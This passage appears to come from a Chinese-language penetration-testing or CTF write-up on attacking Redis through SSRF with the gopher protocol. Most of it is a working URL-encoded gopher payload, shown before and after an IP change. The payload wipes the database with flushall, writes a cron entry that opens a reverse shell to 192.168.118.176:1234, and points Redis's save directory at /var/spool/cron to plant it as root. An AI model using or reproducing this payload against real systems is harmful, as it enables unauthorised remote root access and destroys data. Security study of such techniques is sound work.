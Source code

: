![](2024-01-24-19-32-55.png)
把payload拷贝出来，然后修改一下ip地址等数据：
```
改前：
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2470%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.118.176/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
改后：
gopher://192.168.118.176:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2470%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.118.176/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
#仅仅改动了IP
```
